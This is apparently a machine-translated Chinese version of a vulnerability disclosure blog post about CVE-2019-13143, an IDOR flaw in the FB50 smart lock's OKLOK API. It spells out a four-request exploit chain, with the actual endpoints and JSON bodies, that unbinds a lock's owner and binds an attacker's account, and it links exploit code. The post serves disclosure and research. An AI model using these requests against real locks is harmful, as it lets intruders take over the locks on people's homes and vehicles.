


# 挑选 FB50 智能锁(CVE-2019-13143)

> 原文：<https://dev.to/icyphox/picking-the-fb50-smart-lock-cve-2019-13143-boi>

(*原载于 [SecureLayer7 的博客](http://blog.securelayer7.net/fb50-smart-lock-vulnerability-disclosure)，由我编辑*

### 锁

有问题的锁是深圳龙哥科技有限公司生产的 FB50 智能锁。这种锁在许多电子商务网站上以多个品牌出售，估计有超过 15k+用户。

该锁通过蓝牙与手机配对，需要 Play/App Store 中的 OKLOK 应用程序才能运行。该应用程序要求用户在进一步的功能可用之前创建一个帐户。它还便于配置指纹，并通过蓝牙从一个范围解锁。

我们决定解决两个主要的攻击面——蓝牙(BLE)和安卓应用。

### 通过蓝牙低能耗(BLE)

Android 手机能够捕获蓝牙(HCI)流量，可以在设置下的开发者选项中启用。我们在 Android 手机上做了大约 4 次“解锁”，如截图所示。

[](https://res.cloudinary.com/practicaldev/image/fetch/s--omrnbuWL--/c_limit%2Cf_auto%2Cfl_progressive%2Cq_auto%2Cw_880/https://icyphox.sh/static/img/bt_wireshark.png)

这是在`Write`请求中发送的值:

[](https://res.cloudinary.com/practicaldev/image/fetch/s--_uinGBIG--/c_limit%2Cf_auto%2Cfl_progressive%2Cq_auto%2Cw_880/https://icyphox.sh/static/img/bt_ws_value.png)

我们尝试使用`gattool`和`gattacker`来重放这些请求，但是没有成功，因为写入的值是加密的。 <sup id="fnref-1">[1](#fn-1)</sup>

### 通过 Android 应用程序

使用`jd-gui`、`apktool`和`dex2jar`反转应用程序并没有让我们走得太远，因为大部分都被混淆了。既然有一种更简单的方法——burp suite，为什么还要费事呢？

我们捕获并处理了一堆请求和响应，最终形成了一个有效的利用链。

### 借题发挥

整个攻击过程分为 4 个步骤，包括经过身份验证的 HTTP 请求:

1.  使用锁的 MAC(通过附近的简单蓝牙扫描获得)，获取条形码和锁 ID
2.  使用条形码获取用户 ID
3.  使用锁 ID 和用户 ID，解除用户与锁的绑定
4.  提供新的名称、攻击者的用户 ID 和 MAC 来将攻击者绑定到锁

这是它看起来的样子，本质上(个人信息编辑)。

#### 请求 1

```
POST /oklock/lock/queryDevice
{"mac":"XX:XX:XX:XX:XX:XX"} 
```

回复:

```
{
   "result":{
      "alarm":0,
      "barcode":"<BARCODE>",
      "chipType":"1",
      "createAt":"2019-05-14 09:32:23.0",
      "deviceId":"",
      "electricity":"95",
      "firmwareVersion":"2.3",
      "gsmVersion":"",
      "id":<LOCK ID>,
      "isLock":0,
      "lockKey":"69,59,58,0,26,6,67,90,73,46,20,84,31,82,42,95",
      "lockPwd":"000000",
      "mac":"XX:XX:XX:XX:XX:XX",
      "name":"lock",
      "radioName":"BlueFPL",
      "type":0
   },
   "status":"2000"
} 
```

#### 请求 2

```
POST /oklock/lock/getDeviceInfo

{"barcode":"https://app.oklok.com.cn/app.html?id=<BARCODE>"} 
```

回复:

```
"result":{
      "account":"email@some.website",
      "alarm":0,
      "barcode":"<BARCODE>",
      "chipType":"1",
      "createAt":"2019-05-14 09:32:23.0",
      "deviceId":"",
      "electricity":"95",
      "firmwareVersion":"2.3",
      "gsmVersion":"",
      "id":<LOCK ID>,
      "isLock":0,
      "lockKey":"69,59,58,0,26,6,67,90,73,46,20,84,31,82,42,95",
      "lockPwd":"000000",
      "mac":"XX:XX:XX:XX:XX:XX",
      "name":"lock",
      "radioName":"BlueFPL",
      "type":0,
      "userId":<USER ID>
   } 
```

#### 请求 3

```
POST /oklock/lock/unbind

{"lockId":"<LOCK ID>","userId":<USER ID>} 
```

#### 请求 4

```
POST /oklock/lock/bind

{"name":"newname","userId":<USER ID>,"mac":"XX:XX:XX:XX:XX:XX"} 
```

### 就是这样！(&吓人的玩意儿)

你应该把锁转到你的账户上。这个问题的严重性在于，原来的所有者完全失去了对他们的锁的访问权。他们甚至不能“重新绑定”来取回它，因为当前的所有者(攻击者)需要授权。

此外，大约有 15，000 个用户账户的信息通过 IDOR 暴露。Ilja 是我在 Telegram 上认识的一个很酷的人，他注意到了名为“carlock”、“garage”、“MainDoor”等的锁。 <sup id="fnref-2">[2](#fn-2)</sup> 这就是阎王爷。

*战栗*

### 概念证明

[PoC 视频](https://twitter.com/icyphox/status/1158396372778807296)

[漏洞利用代码](https://github.com/icyphox/pwnfb50)

### 披露时间表

*   2019 年 6 月 26 日:在浦那的 SecureLayer7 发现问题
*   **2019 年 6 月 27 日**:供应商收到问题通知
*   **2019 年 7 月 2 日** : CVE-2019-13143 保留
*   供应商没有回应
*   【2019 年 8 月 2 日:公开披露

### 吸取的教训

**不要**。永远不会。购买。智能锁。你最好和那些有钥匙的“笨蛋”在一起。随着物联网瘟疫的蔓延，它给原本“无法破解”的东西带来了一个巨大的攻击面(试试黑一个“笨”烤面包机)。

物联网安全场景充满了 10 多年前的漏洞，如可执行堆栈段 <sup id="fnref-3">[3](#fn-3)</sup> ，硬编码密钥，以及普遍的糟糕开发实践。

我们现有的威胁模型和场景必须更新，以考虑这些新的利用可能性。这也扩大了网络战和大规模监控活动的范围。

### 研究员信息

这项研究由以下人员在浦那的[安全层 7](https://securelayer7.net) 完成:

*   阿尼鲁德·奥皮里潘(我)
*   南 Raghav Pillai ( [@_vologue](https://twitter.com/_vologue) )
*   shubham chouguile([@ shubhamtc](https://twitter.com/shubhamtc)

* * *

[这篇](https://www.pentestpartners.com/security-blog/pwning-the-nokelock-api/)文章讨论了一个类似的智能锁，但是他们破解了加密。↩

感谢 Ilja Shaposhnikov (@drakylar)。↩

[PDF](https://gsec.hitb.org/materials/sg2015/whitepapers/Lyon%20Yang%20-%20Advanced%20SOHO%20Router%20Exploitation.pdf) ↩